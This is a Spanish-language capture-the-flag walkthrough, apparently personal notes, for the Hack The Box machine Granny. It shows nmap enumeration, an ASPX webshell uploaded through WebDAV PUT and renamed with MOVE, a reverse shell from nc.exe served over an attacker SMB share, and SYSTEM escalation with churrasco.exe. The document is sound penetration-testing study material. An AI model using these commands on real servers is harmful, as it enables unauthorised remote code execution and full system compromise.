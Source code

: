 ----
- Tags: #IIS #PUT #MOVE #HTTP-METHOD #webshell #ASPX #smbserver #juicypotato #churrasco
------
# Resolución

## Reconocimiento

### NMAP

**Puertos**
```js
# Nmap 7.94SVN scan initiated Tue Nov 26 18:50:34 2024 as: nmap -p- --open --min-rate 5000 -vvv -n -Pn -oN allPorts 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up, received user-set (0.25s latency).
Scanned at 2024-11-26 18:50:34 -03 for 27s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Nov 26 18:51:01 2024 -- 1 IP address (1 host up) scanned in 26.73 seconds
```

**Servicios**
```js
# Nmap 7.94SVN scan initiated Tue Nov 26 18:51:23 2024 as: nmap -sCV -p80 -oN services 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Tue, 26 Nov 2024 21:51:23 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 26 18:51:37 2024 -- 1 IP address (1 host up) scanned in 13.89 seconds
```

## Explotación

### HTTP-METHODS

Descubrimos que en la web **están habilitados diferentes tipos de métodos HTTP**, entre ellos ``TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT``, por lo tanto podríamos intentar jugar con estos manualmente o utilizar la herramienta ``davtest --url <url>`` para que esta realice el chequeo de cuales son los archivos que pueden subirse.

- ``davtest -url http://10.10.10.15``

![[Granny 1.png]]

En este caso automáticamente está utilizando el método **``PUT``** que está permitido por lo que vimos.
Las extensiones que más críticas son si pudiésemos subir archivos serían ``ASP``, ``ASPX`` y ``PHP`` en este caso.

**ASPX** y **ASP** son las que ==servirían== en este caso ya que al tratarse de un **Microsoft IIS** (*Internet Information Services*) como lo vimos en el escaneo de **NMAP** nos interpretaría dichas extensiones.

En este caso la alternativa que encontré fue **subir un archivo** con extensión ``.txt`` (que está permitido) con una **webshell** programada en **``aspx``** dentro, esta se encuentra en el directorio por defecto **``/usr/share/webshells/aspx/cmdasp.aspx``**. Luego con el método **``MOVE``** modificar el nombre del archivo a **``.aspx``**, de esta forma sería interpretada.

- *``curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.txt ``* --> Subimos el archivo ``cmdasp.txt`` con el contenido de la **Webshell** dentro.

- *``curl -s -X MOVE -H "Destination: http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt``* --> Modificamos el nombre del ``.txt`` a ``.aspx``.

Verificamos que el archivo **``cmdasp.aspx``** se interpretó correctamente.

![[Granny 2.png]]

Tenemos **RCE**, por lo tanto podríamos entablarnos una **Reverse Shell** para Windows.

En este caso lo más útil sería aprovechar el repositorio **SecLists** ya que dentro de uno de sus directorios se encuentra un archivo **``nc.exe``** este lo que hace al ser **ejecutado** en una máquina Windows es realizar una Reverse Shell. La ruta por defecto de dicho binario es ``/usr/share/SecLists/Web-Shells/FuzzDB/nc.exe``.

----

Simplemente traeríamos dicho binario al directorio actual de trabajo en nuestra máquina de atacante y luego tendríamos que **compartir** este binario montando un servidor local con **SMB** de la siguiente manera

- ``impacket-smbserver smbFolder $(pwd) -smb2support`` ---> **``smbFolder``** es el nombre del recurso compartido que estamos brindando (Puede ser cualquier otro nombre).

Ahora también en nuestra máquina de atacante nos pondríamos en escucha por el *puerto 443*.

- ``rlwrap nc -nlvp 443``

Por ultimo en la Webshell que conseguimos inyectar colocaríamos la siguiente cadena.

- ``\\10.10.14.25\smbFolder\nc.exe -e cmd 10.10.14.25 443``

De esta forma estaríamos accediendo al recurso compartido por nuestro servidor SMB y luego **ejecutaríamos el archivo** ``nc.exe`` especificándole hacia donde quiero que se entable la conexión.

![[Granny 3.png]]

![[Granny 4.png]]

![[Granny 5.png]]

De esta forma ganaríamos acceso a la máquina **Granny**.

## Escalada de Privilegios

Una vez tenemos acceso a la máquina procedemos a la escalada de privilegios hacia el usuario **``nt-authority\system``**.

- Si hacemos un **``systeminfo``** veremos toda la información del Sistema operativo.
- Si hacemos un **``whoami /priv``** veremos los privilegios actuales del sistema.

![[Granny 7.png]]

------

![[Granny 6.png]]

-----

En este caso cuando el privilegio **``SeImpersonPrivilage``** está **``Enabled``** podríamos utilizar la utilidad llamada **``Juicy Potatoe``** de su [repositorio](https://github.com/k4sth4/Juicy-Potato) pero esta no funcionaría ya que no se encuentra disponible para la versión de Windows que posee la máquina Granny, esto se debe a que es muy antigua como vimos al utilizar ``systeminfo``. (*Windows Server 2003*)

Para estos casos hay una utilidad alternativa llamada **``churrasco``**, esta utilidad funciona para equipos más antiguos de Windows como el de nuestro caso, esta se puede encontrar en el siguiente [link](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/).
Una vez descarguemos ``churrasco.exe`` simplemente pasamos la utilidad a la máquina víctima con un **``smbserver``** por ejemplo.

- ``impacket-smbserver smbfolder $(pwd) -smb2support`` --> El archivo **``churrasco.exe``** debe estar en el directorio actual de nuestra máquina atacante.
- ``copy \\10.10.14.25\smbfolder\churrasco.exe churrasco.exe`` --> Lo ideal sería estar en el directorio ``C:\WINDOWS\Temp``, en mi caso cree con ``mkdir privesc`` una carpeta dentro de **Temp**.

----

Por último simplemente tendremos que pasar el ejecutable **``churrasco.exe``** a la máquina víctima, en mi caso otra vez usaré un **``smbserver``**.
Si ejecutamos ``churrasco.exe`` nos darán las instrucciones para su ejecución, nosotros por ejemplo podríamos hacer lo siguiente.

- ``churrasco.exe -d "whoami"``

Este comando se ejecutará como usuario **``Authority``**.

Si quisieramos ganar acceso total a dicho usuario privilegiado con una consola podríamos utilizar el **``nc.exe``** que usamos previamente para ganar acceso a la máquina, pero esta vez a través del **``churrasco.exe``**.

Por lo tanto compartimos el recurso con **``smbserver``** y realizaríamos la escalada.

- ``impacket-smbserver smbfolder $(pwd) -smb2support`` --> *Terminal 1* ofreciendo el ``nc.exe``.
- ``rlwrap nc -nvlp 443`` --> *Terminal 2*.
- ``churrasco.exe -d "\\10.10.14.25\smbfolder\nc.exe -e cmd 10.10.14.25 443"`` --> *Terminal 3* ejecutando el ``nc.exe`` de la Terminal 1 y entablando la **Reverse Shell**.

![[Granny 8.png]]

De esta forma **ganaríamos acceso** como usuario **``Nt Authority\system``**.